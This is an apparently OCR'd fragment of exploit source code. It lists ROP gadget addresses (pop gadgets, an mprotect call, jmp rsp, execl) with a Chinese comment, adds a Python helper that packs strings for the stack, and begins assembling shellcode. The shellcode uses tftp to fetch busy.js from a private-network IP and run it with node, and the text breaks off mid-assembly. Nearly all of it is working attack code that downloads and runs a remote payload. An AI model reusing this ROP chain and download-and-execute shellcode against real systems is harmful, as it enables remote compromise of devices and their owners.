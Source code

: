 ```
#0x000000000257008a push rdx,pop rdi.ret
#0x0000000000530c8e : pop rsi ; ret
#0x000000000046bb27 : pop rax ; ret
#0x000000000060e7e9 : pop rax ; pop rsi ; ret 绕过最开始那个1无法写入的限制
#0x000000000043F3D0 call mprotect 
#0x0000000000509372 : pop rdx ; ret
#0x0000000002a0e0e0 : add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
#0x00000000005dc96d jmp rsp
#0x43A160 execl
def bytes2stack_bytes(bytes):
    stack_str = "0x"
    swap_data = bytearray(bytes)
    swap_data.reverse()
    for i in swap_data:
        t = hex(i)[2:]
        stack_str+=t

    return stack_str
shellcode1 = asm('''
    lea rax, [rip + 0x69]
    jmp rax
    nop
    nop
    nop
    nop
    nop
    nop
    nop

''')
print(len(shellcode1))
def gen_shellcode_download_file():
    save_path2 = bytes2stack_bytes(b"/cin/bus")
    save_path1 = bytes2stack_bytes(b'ybox')
    arg2 = bytes2stack_bytes(b"/bin/nod")
    arg1 = bytes2stack_bytes(b"e"+b'\x00'*7)
    filename = bytes2stack_bytes(b"busy.js")

    ip_addr2 = bytes2stack_bytes(b"111.160")
    ip_addr1 = bytes2stack_bytes(b"192.168.")

    cmd_path2 = bytes2stack_bytes(b"p")
    cmd_path1 = bytes2stack_bytes(b"/bin/tft")
    arg3=bytes2stack_bytes(b'node')
    arg4=bytes2stack_bytes(b'/busy.js')
    arg5=bytes2stack_bytes(b'0')
    shellcode = asm('''
      sub rsp,0x1000
      push 0
      mov rbx, {}
      push rbx
      mov rbx, {}
      push rbx
      mov rdi, rsp
      mov rbx,{}
      push rbx
      mov rbx,{}
      push rbx
      mov rsi,rsp
      sub rsp,0x8
      mov rbx,{}
      push rbx
      mov rdx,rsp
```